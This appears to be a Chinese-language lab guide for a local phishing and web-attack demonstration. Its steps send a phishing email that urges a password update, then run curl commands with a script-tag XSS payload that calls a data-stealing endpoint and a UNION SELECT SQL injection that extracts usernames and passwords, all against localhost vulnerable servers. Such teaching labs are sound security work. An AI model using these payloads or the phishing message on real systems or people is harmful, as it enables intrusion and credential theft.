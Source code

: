 ```bash
echo "=== 邮件系统状态 ==="
docker ps --filter "name=mail" --format "table {{.Names}}\t{{.Ports}}"
echo "=== 钓鱼系统状态 ==="
netstat -tlnp | grep -E ":500[2-4]|:5888" | sort
```

#### 步骤1: 发送钓鱼邮件
```bash
# 通过29项目Web界面发送钓鱼邮件
curl -X POST http://localhost:5000/api/send_test_email \
  -H "Content-Type: application/json" \
  -d '{
    "from_email": "alice@seedemail.net",
    "to_email": "bob@seedemail.net",
    "subject": "重要账户安全提醒",
    "body": "您的账户存在安全风险，请立即点击链接更新密码",
    "template": "phishing"
  }'

# 验证邮件发送成功
docker exec mail-150-seedemail setup email list
```

#### 步骤2: 用户接收并点击钓鱼链接
```bash
# 模拟用户登录Webmail查看邮件
echo "用户登录Webmail: http://localhost:8000"
echo "用户名: bob@seedemail.net"
echo "密码: password123"

# 模拟点击钓鱼链接 (在浏览器中操作)
echo "点击邮件中的钓鱼链接，访问漏洞服务器"
```

#### 步骤3: XSS攻击执行
```bash
# 访问XSS漏洞页面
echo "访问: http://localhost:5004"

# 执行XSS攻击
curl -X POST http://localhost:5004/submit_feedback \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "name=受害者&email=bob@seedemail.net&message=<script>alert('XSS攻击成功!'); fetch('/api/steal_data');</script>"

# 查看XSS攻击日志
tail -f vulnerable_servers/web_xss/xss_server.log
```

#### 步骤4: SQL注入攻击
```bash
# 访问SQL注入页面
echo "访问: http://localhost:5002"

# 执行SQL注入攻击
curl -X POST http://localhost:5002/search \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "employee_id=1' UNION SELECT username, password FROM users --"

# 查看数据库泄露
tail -f vulnerable_servers/db_sqli/sqli_server.log
```
